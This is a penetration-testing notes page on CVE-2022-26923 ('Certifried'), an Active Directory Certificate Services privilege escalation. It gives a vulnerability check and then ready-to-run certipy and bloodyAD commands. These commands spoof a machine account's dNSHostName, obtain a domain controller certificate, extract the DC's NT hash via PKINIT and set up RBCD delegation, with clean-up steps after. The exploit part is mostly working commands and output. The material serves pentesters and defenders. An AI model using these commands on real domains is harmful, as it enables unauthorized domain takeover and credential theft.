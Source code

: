 ```yaml
---
description: CVE-2022-26923
---
```


# dNSHostName Spoofing (Certifried)

- [https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/](https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/)
- [https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1](https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1)
- [https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e](https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e)
- [https://github.com/aniqfakhrul/certifried.py](https://github.com/aniqfakhrul/certifried.py)
- [https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25](https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25)




## Check

If there's an object SID printed when requesting a certificate based on the User or Machine templates, the AD environment is **not** vulnerable:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template User -dc-ip 192.168.1.11
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 120
[*] Got certificate with UPN 'snovvcrash@megacorp.local'
[*] Certificate object SID is 'S-1-5-21-1230029644-1443616230-1161330039-2139'  <== NOT vulnerable
[*] Saved certificate and private key to 'snovvcrash.pfx'
```




## Exploit

Create a new machine account with `dNSHostName` containing FQDN of a DC:

```
$ certipy account create -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user FAKEMACHINE -dns DC01.megacorp.local
```

Or change `dNSHostName` property manually for an already pwned machine account, e.g. via [pre2k](/pentest/infrastructure/ad/pre-created-computers-abuse#acl-abuse-on-pre-windows-2000-computers) (will definitely break stuff!):

```
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -spns ''
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -dns DC01.megacorp.local
```

Request a certificate on behalf of that machine account with spoofed `dNSHostName`:

```
$ certipy req -u 'FAKEMACHINE$@megacorp.local' -p 'M4chinePassw0rd!' -target CA01.megacorp.local -ca CorpCA -template Machine -dc-ip 192.168.1.11
```



### Abuse PKINIT

Authenticate with the obtained certificate and get DC's NT hash via PKINIT:

```
$ certipy auth -pfx dc01.pfx -dc-ip 192.168.1.11
```



### Abuse RBCD

- [https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)

Authenticate with obtained certificate and configure RBCD on a DC via [bloodyAD](https://github.com/CravateRouge/bloodyAD) to allow delegation to the fake machine account:

```
$ openssl pkcs12 -in dc01.pfx -out dc01.pem -nodes
$ python bloodyAD.py -d megacorp.local -c ":dc01.pem" --host 192.168.1.11 setRbcd 'FAKEMACHINE$' 'DC01$'
```



### Clean Up

If `dNSHostName` was modified for an existing machine account, roll back the changes:

```
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -dns PWNEDMACHINE.megacorp.local
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -spns WSMAN/pwnedmachine.MEGACORP.LOCAL,WSMAN/pwnedmachine,TERMSRV/pwnedmachine.MEGACORP.LOCAL,TERMSRV/pwnedmachine,RestrictedKrbHost/pwnedmachine,HOST/pwnedmachine,RestrictedKrbHost/pwnedmachine.MEGACORP.LOCAL,HOST/pwnedmachine.MEGACORP.LOCAL
```

{% hint style="info" %}
A list of SPNs to backup can be taken from a BH dump:

```
$ cat 20230301144823_computers.json | jq -r '.data[].Properties | select(.name == "PWNEDMACHINE.MEGACORP.LOCAL") | .serviceprincipalnames'
```
{% endhint %}




## About the Fix

- [https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/](https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/)
- [https://elkement.blog/2022/06/13/defused-that-san-flag/](https://elkement.blog/2022/06/13/defused-that-san-flag/)
